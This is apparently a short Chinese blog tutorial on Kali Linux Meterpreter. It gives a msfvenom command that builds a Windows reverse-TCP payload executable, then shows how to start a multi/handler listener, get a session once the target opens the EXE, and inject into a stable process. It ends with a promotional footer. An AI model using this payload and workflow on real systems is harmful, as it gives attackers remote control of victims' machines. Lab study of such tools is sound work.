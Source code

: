 ```yaml
---
layout: post
category: curleyg-code-hack
title: Kali2.0 Meterpreter 运用
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Kali2.0 Meterpreter 运用
lock: need
---
```


# Kali2.0 Meterpreter 运用

初试牛刀

（1）生产EXE  就用meterpreter (shell 一个含义)  (KALI2.0以前版本 为 msfpayload )2.0后 新命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXXX -f exe  > 1234.exe
```

![img](https://img-blog.csdnimg.cn/20181125231446382.png)

（2）默认生成地址是 ROOT 查看 后 直接经 物理机 复制进入目标机 WIN2003 

（3）打开之前，监听机 先打开 监听

```
use  exlpoit/multi/handler 
```

![img](https://img-blog.csdnimg.cn/20181125231535591.png)

（4）目标机 打开 EXE 后 发生回话   用 sessions -v 查看

![img](https://img-blog.csdnimg.cn/20181125231609349.png)

（5）选择要的回话窗口  session -i 1 成功进入 meterpreter 

输入 ？  进行试验 ，选定稳定进程注入。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

